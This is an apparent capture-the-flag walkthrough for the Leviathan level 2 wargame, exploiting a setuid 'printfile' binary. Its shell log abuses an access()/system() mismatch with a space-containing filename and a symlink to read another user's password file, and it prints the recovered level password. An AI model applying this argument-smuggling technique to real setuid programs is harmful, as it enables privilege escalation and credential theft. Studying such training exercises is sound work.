 # Leviathan 2 - Walkthrough

inside the home directory there is a setuid elf called `printfile`, owned by leviathan3.
It requires an argument, so I gave it `/etc/leviathan_pass/leviathan3` and:
`leviathan2@leviathan:~$ ./printfile /etc/leviathan_pass/leviathan3`
`You cant have that file...``

Welll...
Running ltrace proves us that it is actually running a `/bin/cat`, and runs `access` right before.
What is `access`?

from the man of `access`:
 Warning:  Using  these calls to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole,
       because the user might exploit the short time interval between checking and opening the file to manipulate it.  For this reason, the use  of  this  system
       call should be avoided.  (In the example just described, a safer alternative would be to temporarily switch the process's effective user ID to the real ID
       and then call open(2).)
	   
Interesting.. There is a security hole here.

Let's do a tmux.
in one terminal, we'll create a file `/tmp/leviathan2/my_file` and grant it full permissions.
in the second terminal, we'll run gdb with `./printfile /etc/leviathan2/my_file`, and put a breakpoint after a successful access check.
Then, we will delete `/tmp/leviathan2/my_file` and create a symlink instead to `/etc/leviathan_pass_leviathan3`:
`ln -s /etc/leviathan_pass/leviathan3 /tmp/leviathan2/my_file`

failed :(

Let's try another thing. `access` checks the full path, while `cat` checks the first argument.
So we'll create a file filled with space, where the first one is a symlink with full permissions to `/etc/leviathan_pass/leviathan3`:

leviathan2@leviathan:~$ ln -s /etc/leviathan_pass/leviathan3 /tmp/leviathan2/my
leviathan2@leviathan:~$ ls /tmp/leviathan2
my  my file
leviathan2@leviathan:~$ ls -la /tmp/leviathan2
ls: cannot access '/tmp/leviathan2': No such file or directory
leviathan2@leviathan:~$ ls -la /tmp/leviathan
ls: cannot access '/tmp/leviathan': No such file or directory
leviathan2@leviathan:~$ ls -la /tmp/leviathan2
ls: cannot access '/tmp/leviathan2': No such file or directory
leviathan2@leviathan:~$ mkdir /tmp/leviathan2 && touch /tmp/leviathan2/my\ file
leviathan2@leviathan:~$ ln -s /etc/leviathan_pass/leviathan3 /tmp/leviathan2/my
leviathan2@leviathan:~$ ls -la /tmp/leviathan2
total 268
drwxr-sr-x   2 leviathan2 root   4096 Dec 16 19:20 .
drwxrws-wt 194 root       root 266240 Dec 16 19:20 ..
lrwxrwxrwx   1 leviathan2 root     30 Dec 16 19:20 my -> /etc/leviathan_pass/leviathan3
-rw-r--r--   1 leviathan2 root      0 Dec 16 19:20 my file
leviathan2@leviathan:~$ ./printfile /tmp/leviathan2/my\ file
Ahdiemoo1j 

WORKED! 

leviathan2@leviathan:~$ ltrace ./printfile /tmp/leviathan2/my\ file
__libc_start_main(0x804852b, 2, 0xffffd764, 0x8048610 <unfinished ...>
access("/tmp/leviathan2/my file", 4)                                                                  = 0
snprintf("/bin/cat /tmp/leviathan2/my file"..., 511, "/bin/cat %s", "/tmp/leviathan2/my file")        = 32
geteuid()                                                                                             = 12002
geteuid()                                                                                             = 12002
setreuid(12002, 12002)                                                                                = 0
system("/bin/cat /tmp/leviathan2/my file".../bin/cat: /tmp/leviathan2/my: Permission denied
/bin/cat: file: No such file or directory
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                = 256
+++ exited (status 0) +++